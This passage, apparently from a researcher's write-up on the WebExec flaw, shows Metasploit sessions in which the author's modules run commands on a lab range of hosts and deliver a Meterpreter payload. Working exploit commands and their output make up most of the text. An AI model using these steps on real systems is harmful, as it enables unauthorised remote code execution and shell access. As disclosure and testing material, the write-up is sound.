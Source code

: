 To simplify this attack, I wrote a pair of Metasploit modules. [One is an auxiliary module](https://github.com/iagox86/metasploit-framework-webexec/blob/master/lib/msf/core/exploit/smb/client/webexec.rb) that implements this attack to run an arbitrary command remotely, and [the other is a full exploit module](https://github.com/iagox86/metasploit-framework-webexec/blob/master/modules/exploits/windows/smb/webexec.rb). Both require a valid SMB account (local or domain), and both mostly depend on the [WebExec library](https://github.com/CounterHack/webexec-metasploit/blob/cisco-webex-exploit/lib/msf/core/exploit/smb/client/webexec.rb) that I wrote.

Here is an example of using the auxiliary module to run <tt>calc</tt> on a bunch of vulnerable machines:

```

msf5 > use auxiliary/admin/smb/webexec_command
msf5 auxiliary(admin/smb/webexec_command) > set RHOSTS 192.168.1.100-110
RHOSTS => 192.168.56.100-110
msf5 auxiliary(admin/smb/webexec_command) > set SMBUser testuser
SMBUser => testuser
msf5 auxiliary(admin/smb/webexec_command) > set SMBPass testuser
SMBPass => testuser
msf5 auxiliary(admin/smb/webexec_command) > set COMMAND calc
COMMAND => calc
msf5 auxiliary(admin/smb/webexec_command) > exploit

[-] 192.168.56.105:445    - No service handle retrieved
[+] 192.168.56.105:445    - Command completed!
[-] 192.168.56.103:445    - No service handle retrieved
[+] 192.168.56.103:445    - Command completed!
[+] 192.168.56.104:445    - Command completed!
[+] 192.168.56.101:445    - Command completed!
[*] 192.168.56.100-110:445 - Scanned 11 of 11 hosts (100% complete)
[*] Auxiliary module execution completed
```

And here's the full exploit module:

```

msf5 > use exploit/windows/smb/webexec
msf5 exploit(windows/smb/webexec) > set SMBUser testuser
SMBUser => testuser
msf5 exploit(windows/smb/webexec) > set SMBPass testuser
SMBPass => testuser
msf5 exploit(windows/smb/webexec) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf5 exploit(windows/smb/webexec) > set RHOSTS 192.168.56.101
RHOSTS => 192.168.56.101
msf5 exploit(windows/smb/webexec) > exploit

[*] 192.168.56.101:445 - Connecting to the server...
[*] 192.168.56.101:445 - Authenticating to 192.168.56.101:445 as user 'testuser'...
[*] 192.168.56.101:445 - Command Stager progress -   0.96% done (999/104435 bytes)
[*] 192.168.56.101:445 - Command Stager progress -   1.91% done (1998/104435 bytes)
...
[*] 192.168.56.101:445 - Command Stager progress -  98.52% done (102891/104435 bytes)
[*] 192.168.56.101:445 - Command Stager progress -  99.47% done (103880/104435 bytes)
[*] 192.168.56.101:445 - Command Stager progress - 100.00% done (104435/104435 bytes)
[*] Started bind TCP handler against 192.168.56.101:4444
[*] Sending stage (179779 bytes) to 192.168.56.101
```

